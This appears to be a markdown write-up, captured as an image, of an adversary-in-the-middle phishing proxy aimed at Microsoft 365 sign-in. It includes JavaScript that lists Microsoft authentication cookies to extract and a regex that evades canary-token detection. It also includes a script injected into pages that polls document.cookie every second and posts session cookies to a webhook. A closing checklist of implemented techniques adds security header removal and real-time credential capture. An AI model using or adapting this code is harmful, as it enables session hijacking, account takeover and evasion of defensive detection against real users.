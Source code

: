 ### **Proxy Function - Complete Architecture:**
```javascript
// Advanced cookie extraction based on research
const cookiePatterns = [
    'ESTSAUTH=',
    'ESTSAUTHPERSISTENT=', 
    'SignInStateCookie=',
    'ESTSAUTHLIGHT=',
    'buid=',
    'x-ms-gateway-slice='
];

// Canary token evasion (Suter's technique)
.then((text) => text.replace(/"customCssUrl"\s*:\s*".*?"/, '"customCssUrl": "' + original + '"'))

// JavaScript injection for credential stealing
const cookieStealerScript = `
<script>
// Real-time cookie monitoring with AiTM techniques
setInterval(() => {
    const authCookies = document.cookie.split(';').filter(cookie => 
        cookie.includes('ESTSAUTH') || cookie.includes('SignInStateCookie')
    );
    if (authCookies.length > 0) {
        fetch('/cookieproxy/webhook', {
            method: 'POST',
            body: JSON.stringify({cookies: authCookies})
        });
    }
}, 1000);
</script>`;
```

---

## 📊 **RESEARCH SOURCES VALIDATED**

### ✅ **Primary Research Sources Applied:**
1. **Nicola Suter's Blog**: AiTM Phishing with Azure Functions
2. **Rakhesh Sasidharan**: Well-known Client IDs documentation
3. **Microsoft Learn**: OAuth 2.0 device code flow documentation
4. **Microsoft Tech Community**: Client ID deprecation notices
5. **Office 365 IT Pros**: Service principal-less authentication research

### ✅ **Key Techniques Implemented:**
- Reverse proxy URL rewriting
- Cookie domain manipulation  
- Canary token evasion
- Response body modification
- Real-time credential capture
- Security header removal
- Advanced JavaScript injection

---